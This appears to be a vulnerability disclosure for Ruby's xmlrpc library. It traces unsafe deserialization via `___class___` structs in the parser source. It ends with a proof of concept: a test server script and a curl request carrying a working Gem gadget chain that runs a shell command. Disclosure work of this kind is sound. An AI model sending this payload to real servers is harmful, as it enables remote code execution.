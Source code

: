 Hello,

XMLRPC is vulnerable to unsafe deserilization of untrusted data leading to remote code execution when  `Config::ENABLE_MARSHALLING` is set to true.<br>
Although the check for `XMLRPC::Marshallable` is supposed to help control which classes can be serialized it is performed too late the execution has already happened by that point
Below are the full details<br>
Going through XMLRPC source code we can follow the data as it gets processed.<br>
the method `process` calls `parseMethodCall` on the provided data then returns a list with `method_name` and params passed to the rpc
https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/server.rb#L284

```
def process(data)
    method, params = parser().parseMethodCall(data)
    handle(method, *params)
end
```


https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/parser.rb#L464
```
def parseMethodCall(str)
   parser = @parser_class.new
   parser.parse(str)
   raise "No valid method call - missing method name!" if parser.method_name.nil?
   [parser.method_name, parser.params]
end
```


Looking into `params` method we can see that it parses the node `<params>` from the xml iterating through each `<param>` node and calling the method `param` on it
https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/parser.rb#L350
```
def params(node, call=true)
        nodeMustBe(node, "params")

        if call
          node.childNodes.to_a.collect do |n|
            param(n)
          end
        else # response (only one param)
          hasOnlyOneChild(node)
          param(node.firstChild)
        end
end
```
  
https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/parser.rb#L322
```
def param(node)
        nodeMustBe(node, "param")
        hasOnlyOneChild(node, "value")
        value(node.firstChild)
end
```
Moving forward we can see the method `value` being called which will try to set the type and convert the data based on the node when the element is of type struct the method struct is called on the node 

https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/parser.rb#L394
```
def value(node)
      ...
        when :ELEMENT
          case child.nodeName
      ...
          when "struct"           then struct(child)
          when "array"            then array(child)
      ...
 end
```
  
https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/parser.rb#L107
```
 def self.struct(hash)
      # convert to marshalled object
      klass = hash["___class___"]
      if klass.nil? or Config::ENABLE_MARSHALLING == false  # Check if
        hash
      else
        begin
          mod = Module
          klass.split("::").each {|const| mod = mod.const_get(const.strip)}

          obj = mod.allocate

          hash.delete "___class___"
          hash.each {|key, value|
            obj.instance_variable_set("@#{ key }", value) if key =~ /^([a-zA-Z_]\w*)$/
          }
          obj
        rescue
          hash
        end
      end
    end
 ```
 
The above method will check if ENABLE_MARSHELLING is set to true, this is by default is true as we can see under [config.rb](https://github.com/ruby/xmlrpc/blob/5cc6a7e00a9a468bb72375ecd78b086708eb2bb9/lib/xmlrpc/config.rb#L28) 
<br>XMLRPC support `___class___`  when struct is called on a node it will essentially create a new instance of the class and sets it's instance variables if there are any in the node as we can see the code above

<br>Now using a universal gadget chain we can achieve remote code execution, you can find detailed article about the gadget used [here](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

### Proof of concept
Save the following as rpc.rb 
```
require 'xmlrpc/server'
require 'xmlrpc/marshal'
require 'webrick'

class MyXMLRPCServlet < WEBrick::HTTPServlet::AbstractServlet
  def initialize(server)
    @xmlrpc_server = XMLRPC::BasicServer.new
    @xmlrpc_server.add_handler('greeting') do |firstname|
      puts firstname
    end
  end

  def do_POST(req, res)
    content = @xmlrpc_server.process(req.body)
    res.status = 200
    res['Content-Type'] = 'text/xml; charset=utf-8'
    res.body = content
  end
end
server = WEBrick::HTTPServer.new(
  Port: 8080
)
server.mount('/RPC2', MyXMLRPCServlet)
trap('INT') { server.shutdown }
puts "Starting XML-RPC server on 0.0.0.0:8080..."
server.start
```

Start the server and Send the following curl request 
```
curl -i -s -k -X 'POST' --data-binary '<?xml version=\"1.0\" ?><methodCall><methodName>greeting</methodName><params><param><value><array><data><value><struct><member><name>___class___</name><value><string>Gem::Installer</string></value></member><member><name>i</name><value><string>x</string></value></member></struct></value><value><struct><member><name>___class___</name><value><string>Gem::SpecFetcher</string></value></member><member><name>i</name><value><string>y</string></value></member></struct></value><value><struct><member><name>___class___</name><value><string>Gem::Requirement</string></value></member><member><name>requirements</name><value><struct><member><name>___class___</name><value><string>Gem::Package::TarReader</string></value></member><member><name>io</name><value><struct><member><name>___class___</name><value><string>Net::BufferedIO</string></value></member><member><name>io</name><value><struct><member><name>___class___</name><value><string>Gem::Package::TarReader::Entry</string></value></member><member><name>read</name><value><i4>0</i4></value></member><member><name>header</name><value><string>abc</string></value></member></struct></value></member><member><name>debug_output</name><value><struct><member><name>___class___</name><value><string>Net::WriteAdapter</string></value></member><member><name>socket</name><value><struct><member><name>___class___</name><value><string>Gem::RequestSet</string></value></member><member><name>sets</name><value><struct><member><name>___class___</name><value><string>Net::WriteAdapter</string></value></member><member><name>socket</name><value><string>Kernel</string></value></member><member><name>method_id</name><value><string>system</string></value></member></struct></value></member><member><name>git_set</name><value><string>id >/tmp/xmlrpc.txt</string></value></member></struct></value></member><member><name>method_id</name><value><string>resolve</string></value></member></struct></value></member></struct></value></member><member><name>method_id</name><value><string>resolve</string></value></member></struct></value></member></struct></value></data></array></value></param></params></methodCall>' 'http://localhost:8080/RPC2'
```
Check for the file created under /tmp/xmlrpc.txt 
